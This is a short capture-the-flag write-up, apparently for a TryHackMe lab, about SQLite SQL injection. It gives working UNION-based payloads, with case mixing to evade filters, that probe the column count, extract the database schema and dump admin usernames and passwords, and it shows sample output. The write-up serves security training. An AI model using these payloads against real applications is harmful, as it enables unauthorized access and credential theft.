 Ref:- 
1. https://tryhackme.com/r/room/lightroom
2. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md
### Union operation

```sql
Please enter your username: admin
Username not found.
Please enter your username: admin' UnIoN SeLeCt 1'
Password: 1
Please enter your username: admin' UnIoN SeLeCt 1,2'
Error: SELECTs to the left and right of UNION do not have the same number of result columns
```

### Extract Database Structure

```sql
 a' UnIoN SeLeCt group_concat(sql) from sqlite_master'
```

or 

```sql
 a' UnIoN SeLeCt group_concat(sql) from sqlite_schema'
```

output :-
```
		Password:  CREATE TABLE usertable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER
                   ),
                   CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER
                   )
```

### Extract DB info

```sql
a' UnIoN SeLeCt GROUP_CONCAT('|' || username || ':' || password || '|') FROM admintable'
```

![SQL_LIGHT_SELECT.png](Images/SQL_LIGHT_SELECT.png)